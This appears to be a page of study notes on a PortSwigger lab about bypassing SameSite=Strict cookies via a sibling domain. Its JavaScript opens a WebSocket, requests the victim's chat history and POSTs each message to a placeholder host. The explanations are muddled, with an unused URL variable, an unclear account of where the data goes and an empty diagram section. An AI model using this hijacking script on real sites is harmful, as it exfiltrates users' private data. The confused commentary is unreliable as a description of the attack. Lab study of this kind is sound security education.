

## Lab Setup: SameSite Strict Bypass via Sibling Domain

For this lab, we will simulate a scenario where an attacker uses a sibling domain to bypass the SameSite=Strict protection. The goal is to demonstrate how an attacker can exploit this vulnerability and how to defend against it.

### Step-by-Step Mechanics

#### 1. Setting Up the WebSocket Connection

First, we need to establish a WebSocket connection to the server. A WebSocket is a protocol that provides full-duplex communication channels over a single TCP connection. This allows for real-time data exchange between the client and the server.

```javascript
var ws = new WebSocket('wss://example.com/some-endpoint');
```

Here, `ws` is a WebSocket object that connects to the server at `wss://example.com/some-endpoint`. The `wss` protocol is similar to `https`, but it is used for WebSocket connections.

#### 2. Adjusting the URL

Next, we need to adjust the URL of the lab to include the `/shot` endpoint. This endpoint is where the server will send the chat history.

```javascript
// Copy the URL from the lab and adjust it
var url = 'wss://example.com/shot';
```

#### 3. Opening the Connection and Sending the Ready Message

Once the WebSocket connection is established, we need to open the connection and send a ready message to the server. This message indicates that the client is ready to receive data.

```javascript
ws.onopen = function() {
    ws.send('ready');
};
```

When the connection is opened, the `onopen` event handler is triggered, and the `send` method is called to send the `ready` message to the server.

#### 4. Handling Messages from the Server

The server will respond with a series of messages containing the chat history. We need to handle these messages and perform the necessary actions.

```javascript
ws.onmessage = function(event) {
    // Perform the request using the received data
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://example.com/action', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.send(JSON.stringify({data: event.data}));
};
```

When a message is received from the server, the `onmessage` event handler is triggered. The received data is then used to perform a POST request to the server.

### Full Example Code

Here is the complete code for establishing the WebSocket connection and handling the messages:

```javascript
var ws = new WebSocket('wss://example.com/shot');

ws.onopen = function() {
    ws.send('ready');
};

ws.onmessage = function(event) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://example.com/action', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.send(JSON.stringify({data: event.data}));
};
```

### Mermaid Diagram: WebSocket Connection Flow

A visual representation of the WebSocket connection flow can help understand the sequence of events:



### Pitfalls and Common Mistakes

- **Incorrect URL**: Ensure the URL is correctly formatted and points to the correct endpoint.
- **Missing Event Handlers**: Make sure to define the `onopen` and `onmessage` event handlers to handle the connection and messages appropriately.
- **Security Risks**: Always validate and sanitize the data received from the server to prevent potential security risks.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/12-Lab 11 SameSite Strict bypass via sibling domain/05-How to Prevent  Defend Against CSRF Attacks|How to Prevent  Defend Against CSRF Attacks]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/12-Lab 11 SameSite Strict bypass via sibling domain/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/12-Lab 11 SameSite Strict bypass via sibling domain/07-Practice Labs|Practice Labs]]
